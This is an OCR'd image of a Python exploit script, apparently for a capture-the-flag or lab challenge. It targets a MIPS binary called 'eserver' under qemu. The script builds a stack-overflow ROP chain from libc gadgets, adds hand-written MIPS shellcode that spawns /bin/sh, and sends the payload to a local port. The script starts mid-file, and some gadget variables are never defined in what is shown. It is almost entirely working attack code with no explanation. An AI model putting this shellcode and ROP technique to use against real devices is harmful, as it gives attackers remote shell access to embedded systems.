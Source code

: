 ```python
# .text:0008F3C0                 lw      $s1, 40($sp)
# .text:0008F3C4                 lw      $s0, 36($sp)
# .text:0008F3C8                 jr      $ra
# .text:0008F3CC                 addiu   $sp, 0x38

addiu_a1_sp = 0xF60D4
# .text:000F60D4                 addiu   $a1, $sp, 24
# .text:000F60D8                 move    $t9, $s3
# .text:000F60DC                 jalr    $t9
jr_a1 = 0x11C68C
# .text:0011C68C                 move    $t9, $a1
# .text:0011C690                 move    $a1, $a0
# .text:0011C694                 jalr    $t9
usleep = 0xEA810
# sleep = 0xB2600

shellcode  = b""
shellcode += b"\xff\xff\x06\x28"  # slti $a2, $zero, -1
shellcode += b"\x62\x69\x0f\x3c"  # lui $t7, 0x6962         ib
shellcode += b"\x2f\x2f\xef\x35"  # ori $t7, $t7, 0x2f2f    ib//
shellcode += b"\xf4\xff\xaf\xaf"  # sw $t7, -0xc($sp)      
shellcode += b"\x73\x68\x0e\x3c"  # lui $t6, 0x6873         hs
shellcode += b"\x6e\x2f\xce\x35"  # ori $t6, $t6, 0x2f6e    hs/n
shellcode += b"\xf8\xff\xae\xaf"  # sw $t6, -8($sp)
shellcode += b"\xfc\xff\xa0\xaf"  # sw $zero, -4($sp)
shellcode += b"\xf4\xff\xa4\x27"  # addiu $a0, $sp, -0xc   //bin/sh
shellcode += b"\xff\xff\x05\x28"  # slti $a1, $zero, -1
shellcode += b"\xab\x0f\x02\x24"  # addiu $v0, $zero, 0xfab
shellcode += b"\x0c\x01\x01\x01"  # syscall 0x40404

payload =  ''
payload += 'a'*508
payload += p32(set_s3_addr+libc_base)           # overflow return address1
payload += 'b'*44
payload += '0000'						#s0
payload += p32(jr_t9_jr_ra+libc_base)	#s1
payload += p32(usleep+libc_base)		#s2
payload += '3333'						#s3
payload += p32(set_a0_addr+libc_base)	#ra    # overflow return address2
payload += 'c'*48
payload += p32(jr_a1+libc_base)			#s3    # goto a1(shellcode)
payload += p32(addiu_a1_sp+libc_base)	#ra    # overflow return address3,modify a1 to sp+24(shellcode),goto s3
payload += 'd'*24
payload += shellcode


# payload =  ''
# payload += 'a'*508
# payload += p32(set_s3_addr+libc_base)           
# payload += 'b'*44
# payload += '0000'						#s0
# payload += '1111'	                    #s1
# payload += '2222'		                #s2
# payload += p32(jr_a1+libc_base)			#s3
# payload += p32(addiu_a1_sp+libc_base)	#ra    
# payload += 'd'*24
# payload += shellcode

# io = process(['qemu-mipsel', '-L', './', '-g', '12345','./eserver'])
# io = process(['qemu-mipsel', '-L', './', './eserver'])
io = remote('127.0.0.1', 49154)

```